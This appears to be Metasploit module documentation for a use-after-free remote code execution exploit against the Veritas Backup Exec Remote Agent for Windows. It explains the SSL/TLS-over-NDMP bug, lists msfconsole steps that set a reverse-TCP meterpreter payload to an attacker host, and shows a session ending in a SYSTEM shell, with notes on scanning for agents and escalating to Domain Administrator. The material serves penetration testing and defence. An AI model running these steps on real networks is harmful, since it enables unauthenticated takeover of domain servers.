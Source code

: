 ## Vulnerability Summary

The Backup Exec Remote Agent for Windows is vulnerable to a use-after-free in
its handling of SSL/TLS-wrapped NDMP connections. If SSL/TLS is established on a
NDMP connection, ended, and finally re-established, the agent will re-use
previously freed SSL/TLS structures. This allows for remote code execution over
an unauthenticated network connection.


## Vulnerable Application

Backup Exec consists of a server component as well as remote agents that are
installed on each host that should be backed up by the server.

There are remote agents available for a range of data sources, including
operating-system level agents for Windows and Linux hosts' local filesystems,
application-specific agents for Microsoft Exchange, SharePoint, Active
Directory, etc., and agents for virtual machines such as VMware or Hyper-V
instances. This exploit targets the Windows OS-level remote agents, which are
the most common type in a typical Backup Exec deployment on a Windows-based
network. The agents are installed as services running by default as the
`NT AUTHORITY\SYSTEM` user.

A trial version of Backup Exec can be downloaded from Veritas' website;
currently the download is available
[here](https://www.veritas.com/trial/en/us/backup-exec-16.html).


## Vulnerability Description

The agent accepts NDMP connections on TCP port 10000. The vendor-specific
`0xF383` NDMP packet type allows for NDMP connections to be wrapped in a SSL/TLS
session. Sub-type `4` initiates the SSL/TLS handshake; after successfully
completing this the client and server continue the NDMP session through the
SSL/TLS session.

The agent makes use of OpenSSL to handle these SSL/TLS sessions. When a SSL/TLS
session is created, the agent creates necessary OpenSSL structures, including a
`struct BIO` from the connection's associated network socket using
`BIO_new_socket`. Upon the end of the SSL/TLS session, this structure is freed
by a call to `BIO_free` through a call to `SSL_free`.

However, if a SSL/TLS connection is then re-established on the same NDMP
connection, the previously freed `BIO` is re-used in the new SSL/TLS session
even though it is no longer allocated. The `BIO` is stored during the first
connection setup and then retrieved during second connection setup as a member
of the `CSecuritySSLConnection` class, despite the call to `SSL_free` previously
freeing it. This leads to a use-after-free as the `BIO` contains a pointer to a
structure (`BIO_METHOD *method`) of function pointers that are used to perform
operations such as reading and writing from the wrapped `BIO` object (in this
case, the network socket).

By overwriting the previously allocated `BIO` with controlled data, it is
possible to gain remote code execution when OpenSSL attempts to call one of
these function pointers.


## Verification Steps

1. Install the Backup Exec server on a host.
2. Install the Backup Exec Remote Agent for Windows on another host, either
   manually or through the server's remote agent installation feature. Note that
   in this contrived test situation you should be sure to let the agent run for
   a few minutes before continuing so it can finish initial startup work that
   otherwise interferes with the exploit's heap manipulation.
3. Start `msfconsole`.
4. Select the module and configure it with, at minimum, the address of the host
   running the remote agent:
   ```
   use exploit/windows/backupexec/ssl_uaf
   set RHOST [REMOTE AGENT HOST]
   ```
5. Check the service is running and potentially vulnerable with the `check`
   command.
6. Select a target version using `set target [TARGET]`.
7. Select a payload and its options; for example:
   ```
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST [METASPLOIT HOST]
   ```
8. Start the exploit using the `exploit` command.
9. Hopefully get a `NT AUTHORITY\SYSTEM` shell :)

An example session is as follows:

```
msf > use exploit/windows/backupexec/ssl_uaf
msf exploit(ssl_uaf) > set RHOST win10
RHOST => win10
msf exploit(ssl_uaf) > check

Hostname: WIN10
OS type: Windows NT
OS version: Major Version=10 Minor Version=0 Build Number=14393 ServicePack Major=0 ServicePack Minor=0 SuiteMask=256 ProductType=1 ProcessorType=AMD64
Host ID: XXXX::XXXX:XXXX:XXXX:XXXX
Vendor: VERITAS Software, Corp.
Product: Remote Agent for NT
Revision: 9.2
[*] win10:10000 The target appears to be vulnerable.
msf exploit(ssl_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x64
   1   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x86
   2   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x64
   3   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x86
   4   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x64
   5   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x86
   6   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x64
   7   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x86
   8   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x64
   9   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x86
   10  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x64
   11  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x86


msf exploit(ssl_uaf) > set target 4
target => 4
msf exploit(ssl_uaf) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(ssl_uaf) > set LHOST 10.123.1.1
LHOST => 10.123.1.1
msf exploit(ssl_uaf) > exploit

[*] Started reverse TCP handler on 10.123.1.1:4444
[*] win10:10000 - Connecting sockets...
[*] win10:10000 - CA certificate ID = 8120a0e9
[*] win10:10000 - Getting and handling a certificate signing request...
[*] win10:10000 - Agent certificate ID = 430b56d0
[*] win10:10000 - Testing certificate...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Entering SSL mode on main socket...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Sending stages 2 to 4...
[*] win10:10000 - Closing TLS spray sockets...
[*] win10:10000 - Re-entering SSL mode on main socket...
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 1/50...
[*] Sending stage (1189423 bytes) to 10.123.1.2
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 2/50...
[*] Meterpreter session 1 opened (10.123.1.1:4444 -> 10.123.1.2:49748) at 2017-05-23 21:53:07 +1200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


## Options

Apart from the usual exploit module options such as `RHOST`, the module has a
few exploit-specific options. These should not normally need to be set or
changed from their default values in most situations as the exploit will pick
suitable values for them depending on the target selected.

**NumSpraySockets**
The number of sockets connected to the remote agent in order to spray stage 1 of
the exploit, which should overwrite the freed `BIO`.

**NumTLSSpraySockets**
The number of sockets connected to the remote agent in order to spray TLS
extensions. This is used to massage the low fragmentation heap in order to
increase chances of stage 1 successfully overwriting the freed `BIO`.

**NumTriggerAttempts**
The number of attempts made to trigger the use-after-free for Windows 8+
targets, where it is possible to retry calling the overwritten function pointer
multiple times.


## Scenarios

The Backup Exec Remote Agent for Windows is installed on each host that has
local filesystems that should be backed up. These agents listen on the network
for NDMP connections (on port 10000), appearing in Nmap scans with scripts
enabled as follows:

```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-23 20:47 NZST
Nmap scan report for (...)
Host is up (0.0035s latency).
Not shown: 994 filtered ports
PORT      STATE SERVICE            VERSION
(...)
10000/tcp open  ndmp               Symantec/Veritas Backup Exec ndmp (NDMPv3)
|_ndmp-version: ERROR: Script execution failed (use -d to debug)
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

While the exploit is not guaranteed to gain RCE (see the module's description),
in practise the agent is often widely installed in a Windows domain across a
range of hosts (including fileservers and domain controllers). This means
usually at least one instance of the agent will give a shell on a server where
it's easy enough to further escalate to Domain Administator from `SYSTEM`.
